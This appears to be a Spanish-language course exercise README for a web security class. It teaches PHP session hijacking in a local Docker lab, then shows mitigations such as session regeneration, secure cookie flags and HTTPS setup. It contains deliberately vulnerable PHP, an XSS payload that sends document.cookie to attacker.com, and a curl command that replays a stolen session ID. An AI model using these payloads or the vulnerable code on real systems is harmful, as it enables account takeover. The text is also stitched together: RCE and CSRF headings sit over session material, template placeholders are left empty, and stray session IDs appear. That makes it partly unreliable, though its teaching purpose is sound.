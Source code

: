 # PPS-Unidad3Actividad7-RCE
Explotación y Mitigación de ().
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques .
>
> - Analizar el código de la aplicación que permite ataques de .
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es CSRF?
---

Consecuencias de :
- 
## ACTIVIDADES A REALIZAR
---
> Lee detenidamente la sección de vulnerabilidades de subida de archivos.  de la página de PortWigger <https://portswigger.net/web-security/file-upload>
>
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacion.pdf>
> 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque  del **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]()
>


Vamos realizando operaciones:

### Iniciar entorno de pruebas

-Situáte en la carpeta de del entorno de pruebas de nuestro servidor LAMP e inicia el esce>

~~~
docker-compose up -d
~~~


Actividad 2: Explotación y Mitigación de Gestión
Insegura de Sesiones
Tema: Secuestro de sesiones
Objetivo: Identificar riesgos en la gestión de sesiones y mitigarlos
¿Qué es Session Management?
El Session Management (gestión de sesiones) es un mecanismo que permite a las aplicaciones web rastrear y mantener
el estado de los usuarios a lo largo de múltiples solicitudes HTTP. Una mala implementación puede exponer la aplicación
a ataques como Session Hijacking (secuestro de sesión) o reutilización de tokens para suplantación de identidad.
Código vulnerable
Crear el archivo vulnerable: session.php
<?php
session_start();
$_SESSION['user'] = $_GET['user'];
echo "Sesión iniciada como: " . $_SESSION['user'];
?>
¿Por qué es vulnerable?
1. No se valida ni se sanea el parámetro user, permitiendo inyecciones.
2. No se regenera el identificador de sesión al iniciar sesión, permitiendo reutilización de sesiones.
3. No hay restricciones de seguridad en la cookie de sesión, facilitando ataques como Session Hijacking o Session
Fixation.
Explotación de Session Hijacking
Si un atacante obtiene una cookie de sesión válida, puede suplantar a un usuario legítimo.
1
Pasos para llevar a cabo el ataque
1o Capturar la cookie de sesión activa desde el navegador de la víctima.
2o Usar esa misma cookie en otro navegador o dispositivo.
3o Si la sesión es válida y reutilizable, la aplicación es vulnerable.
Ataque detallado: Session Hijacking
A continuación, se detalla cómo un atacante puede explotar este código vulnerable para secuestrar la sesión de un
usuario legítimo.
1o El usuario legítimo inicia sesión
1. El usuario accede a la web y pasa su nombre de usuario en la URL:
http://localhost/session.php?user=admin
2. El servidor crea una sesión y almacena la variable:
$_SESSION['user'] = 'admin';
3. El navegador almacena la cookie de session (revisar en Herramientas para desarrolladores del navegador):
Set-Cookie: PHPSESSID=abcdef123456; path=/;
4. Ahora, cada vez que el usuario haga una solicitud, el navegador enviará la cookie:
Cookie: PHPSESSID=ep5ae44cln6q76t8v18philqh3
2o El atacante roba la cookie de sesión
El atacante necesita obtener el Session ID (PHPSESSID) de la víctima. Puede hacerlo de varias formas:
Captura de tráfico (MITM)
•
 Si la web no usa HTTPS, un atacante puede capturar paquetes de red con herramientas como Wireshark:
1. Iniciar Wireshark y filtrar por http.cookie.
2. Capturar la solicitud del usuario legítimo.
2
3. Extraer la cookie PHPSESSID=ep5ae44cln6q76t8v18philqh3.
Ataque XSS (Cross-Site Scripting)
•
Si la aplicación tiene alguna vulnerabilidad XSS, el atacante puede inyectar un script para robar cookies. Primero
creamos el fichero session_comment.php:
<?php
if (isset($_POST['comment'])) {
echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
<input type="text" name="comment">
<button type="submit">Enviar</button>
</form>
•
 Insertamos el siguiente script para obtener las cookies:
<script>
alert(document.cookie);
</script>
3
•
 Cuando un usuario acceda a la página, su navegador enviará la cookie de sesión al servidor del atacante.
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
Sniffing en redes WiFi públicas
•
 Si la víctima usa una WiFi pública sin HTTPS, su cookie puede ser interceptada con herramientas como Firesheep
o Ettercap.
4
3o El atacante usa la cookie robada
Una vez que el atacante tiene la cookie de sesión (PHPSESSID=ep5ae44cln6q76t8v18philqh3), la puede utilizar para
suplantar a la víctima.
Editar cookies en el navegador
1.
 Abrir las herramientas de desarrollador (F12 en Chrome).
2.
 Ir a Application > Storage > Cookies.
3.
 Seleccionar https://localhost
4.
 Modificar PHPSESSID y reemplazarlo por el valor robado.
Enviar el Session ID en una solicitud
El atacante puede acceder directamente a la sesión de la víctima:
https://localhost/session.php
Añadiendo manualmente la cookie con cURL:
curl -b "PHPSESSID=ep5ae44cln6q76t8v18philqh3" https://victima.com/session.php
5
4o Acceso a la cuenta de la víctima
Ahora el atacante ya puede:
•
•
•
•
Ver datos personales de la víctima.
Realizar cambios en la cuenta (si hay opciones de perfil).
Hacer compras o transacciones (si la web lo permite).
Modificar la contraseña del usuario.
Pasos realizados en el ejemplo real de la explotación:
1.
2.
3.
4.
5.
Usuario legítimo: https://localhost/session.php?user=admin
Atacante captura PHPSESSID=ep5ae44cln6q76t8v18philqh3
Atacante edita su cookie en el navegador y accede a https:/localhost/session.php
Atacante ve: "Sesión iniciada como: admin"
El atacante habría tomado el control de la sesión sin necesidad de credenciales
Mitigación de Session Hijacking
Para evitar este ataque, se deben implementar varias medidas:
* Regenerar el ID de sesión en cada inicio de sesión, además guarda en la sesión el valor recibido por GET['user'],
sanitizándolo para evitar ataques XSS (Cross-Site Scripting).
session_start();
session_regenerate_id(true); // Borra la sesión anterior y genera una nueva
$_SESSION['user'] = htmlspecialchars($_GET['user'], ENT_QUOTES, 'UTF-8');
6
nc3heoo2lu2khtjnabgig7dhs9
9ii89l1qtutdt4812a6npvdvk3
* Configurar la cookie de sesión de forma segura
ini_set('session.cookie_secure', 1);
 // Solo permite cookies en HTTPS
ini_set('session.cookie_httponly', 1); // Evita acceso desde JavaScript (prevención XSS)
ini_set('session.use_only_cookies', 1); // Impide sesiones en URL
* Validar la IP y User-Agent del usuario
session_start();
if (!isset($_SESSION['ip'])) {
$_SESSION['ip'] = $_SERVER['REMOTE_ADDR'];
}
7
if ($_SESSION['ip'] !== $_SERVER['REMOTE_ADDR']) {
session_destroy();
header("Location: login.php");
exit();
}
* Implementar tiempo de expiración de sesión
ini_set('session.gc_maxlifetime', 1800); // Expira en 30 minutos
session_set_cookie_params(1800);
* Usar HTTPS siempre
Configurar un SSL/TLS para cifrar las cookies y evitar capturas MITM.
// Redirigir HTTP a HTTPS si el usuario accede por HTTP
if (!isset($_SERVER['HTTPS']) || $_SERVER['HTTPS'] !== 'on') {
header("Location: https://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']);
exit();
}
* Habilitar HTTPS con SSL/TLS en Localhost (Apache)
Para proteger la sesión y evitar ataques Man-in-the-Middle (MITM), es crucial habilitar HTTPS en el servidor local. A
continuación se configura en Apache.
8
Método 1: Habilitar HTTPS en Apache con OpenSSL
1o Generar un certificado SSL autofirmado
Ejecutar los siguientes comandos en el terminal para crear un certificado SSL:
mkdir /etc/apache2/ssl
cd /etc/apache2/ssl
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout localhost.key -out
localhost.crt
Detalles a ingresar en OpenSSL:
•
 Common Name (CN): Escribir localhost
•
 Los demás campos se pueden dejar en blanco o con datos ficticios
2o Configurar Apache para usar HTTPS
Editar el archivo de configuración de Apache default-ssl.conf :
sudo nano /etc/apache2/sites-available/default-ssl.conf
Modificar o añadir estas líneas dentro de <VirtualHost *:443>:
<VirtualHost *:443>
ServerAdmin webmaster@localhost
ServerName localhost
DocumentRoot /var/www/html
SSLEngine on
SSLCertificateFile /etc/apache2/ssl/localhost.crt
SSLCertificateKeyFile /etc/apache2/ssl/localhost.key
<Directory /var/www/html>
AllowOverride All
Require all granted
</Directory>
</VirtualHost>
3o Habilitar el módulo SSL en Apache
sudo a2enmod ssl
sudo a2ensite default-ssl
sudo systemctl restart apache2
Ahora el servidor soportaría HTTPS en https://localhost/
4o Redirigir HTTP a HTTPS automáticamente
Para asegurarse de que todas las conexiones se realicen por HTTPS, agregar en .htaccess o en default.conf:
RewriteEngine On
9
RewriteCond %{HTTPS} !=on
RewriteRule ^(.*)$ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301]
Todas las solicitudes HTTP serán forzadas a HTTPS.
Verificar que HTTPS funciona correctamente
1o Acceder a https://localhost/ en el navegador.
2o Aceptar el certificado autofirmado (en Chrome, haz clic en Avanzado → Proceder).
3o Verificar que las cookies de sesión ahora tienen Secure activado:
•
•
•
Abrir DevTools (F12 en Chrome o Firefox).
Ir a Application → Storage → Cookies → localhost.
Comprobar que la cookie de sesión tiene el flag Secure habilitado.
Código completo
<?php
// Configurar la seguridad de la sesión antes de iniciarla
ini_set('session.cookie_secure', 1);
 // Solo permite cookies en HTTPS
ini_set('session.cookie_httponly', 1); // Evita acceso desde JavaScript (prevención XSS)
ini_set('session.use_only_cookies', 1); // Impide sesiones en URL
ini_set('session.gc_maxlifetime', 1800); // Expira en 30 minutos
session_set_cookie_params(1800); // Configura el tiempo de vida de la cookie de sesión
// Redirigir HTTP a HTTPS si el usuario accede por HTTP
if (!isset($_SERVER['HTTPS']) || $_SERVER['HTTPS'] !== 'on') {
header("Location: https://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']);
exit();
}
session_start();
session_regenerate_id(true); // Borra la sesión anterior y genera una nueva
// Validación de IP para evitar Session Hijacking
if (!isset($_SESSION['ip'])) {
$_SESSION['ip'] = $_SERVER['REMOTE_ADDR']; // Guarda la IP al iniciar sesión
} elseif ($_SESSION['ip'] !== $_SERVER['REMOTE_ADDR']) {
session_destroy(); // Destruir la sesión si la IP cambia
header("Location: login.php");
exit();
}
// Verificar tiempo de inactividad para expirar la sesión
if (!isset($_SESSION['last_activity'])) {
$_SESSION['last_activity'] = time(); // Registrar el primer acceso
} elseif (time() - $_SESSION['last_activity'] > 1800) { // 30 minutos
session_unset(); // Eliminar variables de sesión
session_destroy(); // Destruir la sesión
header("Location: login.php");
exit();
} else {
$_SESSION['last_activity'] = time(); // Reiniciar el temporizador
}
// Protección contra XSS en el usuario
if (!isset($_SESSION['user'])) {
10
}
if (isset($_GET['user'])) {
$_SESSION['user'] = htmlspecialchars($_GET['user'], ENT_QUOTES, 'UTF-8');
} else {
$_SESSION['user'] = "Desconocido"; // Evita variable indefinida
}
// Mostrar la sesión activa
echo "Sesión iniciada como: " . $_SESSION['user'];
?>
* Resumen de las medidas de seguridad implementadas
Seguridad en sesiones:
o Cookies seguras (HTTPS, HttpOnly, Only Cookies)
o Regeneración de sesión
o Validación de IP
o Expiración por inactividad
Protección contra ataques:
o Prevención de XSS con htmlspecialchars()
o Protección contra secuestro de sesión (Session Hijacking)
o Redirección a HTTPS para evitar ataques MITM
Este código refuerza la seguridad de sesiones en PHP y es una buena práctica para aplicaciones web que
manejen autenticación de usuarios.
11





## Código vulnerable
---



![](images/.png)


### **Código seguro**
---

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

- :

        - 

        - 



🚀 Resultado

✔ 

✔ 

✔ 

## ENTREGA

> __Realiza las operaciones indicadas__

> __Crea un repositorio  con nombre PPS-Unidad3Actividad6-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

> __Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

